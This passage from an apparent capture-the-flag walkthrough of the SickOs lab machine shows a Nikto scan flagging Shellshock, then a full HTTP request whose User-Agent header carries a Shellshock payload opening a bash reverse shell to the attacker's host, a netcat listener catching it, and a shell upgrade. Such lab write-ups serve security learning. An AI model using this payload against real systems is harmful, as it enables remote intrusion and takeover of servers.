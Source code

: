 ```
+ OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ 8726 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           2022-06-30 09:29:16 (GMT-4) (31 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
The scan results revealed something crucial about the website, ```Site appears vulnerable to the 'shellshock' vulnerability```.

## Step 2 - Exploitation

Not immediately knowing what this was, I did more research into what this was and how I would be able to replicate it.

My research led me to [this documentation](https://www.cybureau.org/library/wp-content/uploads/sites/3/2021/02/Blind_SSRF_with_Shellshock_Exploitation.pdf) that explains how the user executed the exploit.

According to the write-up, by inserting the payload into the ```User-Agent``` header of a captured GET request, we can follow the payload with any bash command to perform an RCE.

Therefore, using BurpSuite I made a GET request for ```{IP}/cgi-bin/status/```, intercepted it, and used a simple Bash reverse shell command.

```
GET http://192.168.57.130/cgi-bin/status HTTP/1.1
Host: 192.168.57.130
User-Agent: () { :;}; /bin/bash -c 'bash -i >& /dev/tcp/192.168.57.129/5555 0>&1'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

The full payload used here was ```() { :;}; /bin/bash -c 'bash -i >& /dev/tcp/192.168.57.129/5555 0>&1'```, where any Bash command after the first semicolon (in this case, a simple TCP connect) could be executed.

I also ran a NetCat listener to capture the connection request and was inevitably able to break into the host.

```
sudo nc -lvnp 5555                 
[sudo] password for meowmycks: 
listening on [any] 5555 ...
connect to [192.168.57.129] from (UNKNOWN) [192.168.57.130] 53647
```

I then upgraded to a TTY shell.

```
www-data@SickOs:/usr/lib/cgi-bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<i-bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'                       
The program 'python3' is currently not installed.  To run 'python3' please ask your administrator to install the package 'python3-minimal'
www-data@SickOs:/usr/lib/cgi-bin$ python -c 'import pty;pty.spawn("/bin/bash")'
<i-bin$ python -c 'import pty;pty.spawn("/bin/bash")'                        
www-data@SickOs:/usr/lib/cgi-bin$ ^Z
zsh: suspended  sudo nc -lvnp 5555
                                                                                                                                                                                                                                            
┌──(meowmycks㉿catBook)-[~]
└─$ stty raw -echo;fg 
[1]  + continued  sudo nc -lvnp 5555


```